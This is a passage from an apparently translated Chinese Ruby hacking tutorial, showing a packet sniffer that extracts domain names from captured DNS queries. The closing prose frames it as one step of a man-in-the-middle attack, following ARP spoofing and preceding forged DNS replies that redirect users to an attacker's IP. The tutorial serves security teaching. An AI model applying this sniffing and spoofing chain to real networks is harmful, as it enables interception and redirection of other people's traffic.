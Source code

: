 ```
    return raw_domain[1..-1]
  end

  fqdn = ""
  length_offset = raw_domain[0].ord
  full_length   = raw_domain[ 0..length_offset ].length
  domain_name   = raw_domain[(full_length - length_offset)..length_offset]

  while length_offset != 0
    fqdn << domain_name + "."
    length_offset = raw_domain[full_length].ord
    domain_name   = raw_domain[full_length + 1..full_length + length_offset]
    full_length   = raw_domain[0..full_length + length_offset].length
  end

  return fqdn.chomp!('.')
end

# * We need parse/analyze the valid UDP packets only
# * We need to make sure this packet is a DNS query
#
# Find the DNS packets
#
capture.stream.each do |pkt|
  # Make sure we can parse the packet; if we can, parse it
  if UDPPacket.can_parse?(pkt)
    @packet = Packet.parse(pkt)

    # Make sure we have a query packet
    dns_query = @packet.payload[2..3].to_s

    if dns_query == "\x01\x00"
      # Get the domain name into a readable format
      domain_name = @packet.payload[12..-1].to_s # FULL QUERY
      fqdn = readable(domain_name)

      # Ignore non query packet
      next if domain_name.nil?

      puts "DNS request for: " + fqdn
    end
  end
end 
```

到目前为止，我们已成功完成[ARP 欺骗](module_0x3__network_kung_fu/arp_spoofing.md)，然后是 DNS 捕获，但我们仍然需要替换/欺骗原始响应到我们的域。例如攻击者区域，现在我们必须构建一个 DNS 响应，而不是伪造的发送。那么我们需要什么？

+   我们将使用取得的 IP（欺骗 IP）来重定向用户。

    +   使用 `to_i` 和 `pack` 方法将其转换为十六进制。

